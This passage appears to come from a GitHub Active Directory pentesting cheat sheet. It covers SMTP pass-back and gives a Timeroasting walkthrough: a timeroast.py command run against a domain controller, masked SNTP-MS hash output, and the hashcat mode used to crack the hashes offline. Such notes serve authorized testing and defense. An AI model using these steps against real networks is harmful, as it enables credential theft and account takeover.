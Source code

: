 ### SMTP Pass Back
- https://github.com/RobinMeis/MITMsmtp
--> Similar to LDAP Pass back with SMTP protocol this time.

## Kerberos attacks
### AS-Rep Roasting

### Kerberoasting

### Timeroasting / TrustRoasting / Computer Spraying
> Timeroasting takes advantage of Windows' NTP authentication mechanism, allowing unauthenticated attackers to effectively request a password hash of any computer account by sending an NTP request with that account's RID. This is not a problem when computer accounts are properly generated, but if a non-standard or legacy default password is set this tool allows you to brute-force those offline. 

- https://www.secura.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf
- https://github.com/SecuraBV/Timeroast

On domain controller (up to Windows Server 2019) if you create a computer account (Workstation1$) with CMD Line (net computer) or through the GUI box and check **Assign this computer account as a pre-Windows 2000 Computer**.  

--> This will set the computer account password to default password that matches the first 14 characters of their computer name, lowercase and without a dollar sign.

<img src="./images/timeroasting.png" width="700"/>

```
python3 timeroast.py 192.168.2.60 -o ntp_hashes

1002:$sntp-ms$3axxxxxxx3$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx038
1116:$sntp-ms$11xxxxxxx2$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx73e
1119:$sntp-ms$e9xxxxxxxb$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxcfa
1117:$sntp-ms$30xxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx2d3
1127:$sntp-ms$71xxxxxxx7$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx663
1128:$sntp-ms$51xxxxxxxd$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx9f6
1129:$sntp-ms$08xxxxxxxf$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxdd4
1131:$sntp-ms$d5xxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx41e
1137:$sntp-ms$13xxxxxxxe$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxb80
1138:$sntp-ms$9exxxxxxx0$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx767
1139:$sntp-ms$bbxxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxea2
1140:$sntp-ms$9axxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxe01
```

**Cracking NTP Hashes**
- https://github.com/hashcat/hashcat/issues/3629
- https://github.com/hashcat/hashcat/commit/5446570a4fe7fbadc0bb481f41616e76833da735

Format 31300 (SNTP-MS) available to hashcat to crack the NTP hashes.
